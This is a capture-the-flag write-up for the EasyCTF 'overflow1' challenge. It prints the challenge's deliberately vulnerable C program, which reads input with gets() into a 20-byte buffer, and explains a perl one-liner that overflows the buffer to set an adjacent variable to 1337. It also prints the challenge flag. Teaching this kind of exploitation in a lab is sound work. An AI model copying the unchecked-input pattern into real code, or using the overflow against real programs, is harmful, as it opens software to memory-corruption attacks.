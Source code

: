 ```yaml
---
layout: writeup
title: Buffering…
level: 
difficulty: 
points: 
categories: []
tags: []
flag: easyctf{i_wish_everything_were_th1s_34sy}
---
```

**Challenge**  
Can you overflow the stack? Try it at /problems/overflow1 on the EasyCTF
shell server. The source is available at
/problems/overflow1/overflow1.c, and the program you're trying to
overflow is at /problems/overflow1/overflow1. Good luck!

## Solution

overflow1.c:

    #include <stdio.h>
    #include <stdlib.h>
    #include <fcntl.h>
    
    int main() {
        char buf[20];
        int x = 0;
        gets(buf);
        if (x == 1337) {
            gid_t gid = getegid();
            setresgid(gid, gid, gid);
            FILE *fp;
            fp = fopen("flag.txt", "r");
            char flag[64];
            fgets(flag, 64, (FILE*) fp);
            printf("Here's a flag: %s\n", flag);
        }
        printf("%d\n", x);
        return 0;
    }
{: .language-c}

So if we write more that 20 bytes to the buffer we overwrite variable x,
if we can set this to the value 1337, we get the flag. Luckily it prints
the contents of x at the end of execution. We figure out that after
printing 28 characters we start to overwrite the variable x. 1337 is
0x539 in hex, we print this in little endian after 28 other characters
to get the flag:

    $ perl -e 'print "a"x28 . "\x39\x05" ' | ./overflow1
    
    Here's a flag: easyctf{i_wish_everything_were_th1s_34sy}
    
    1337

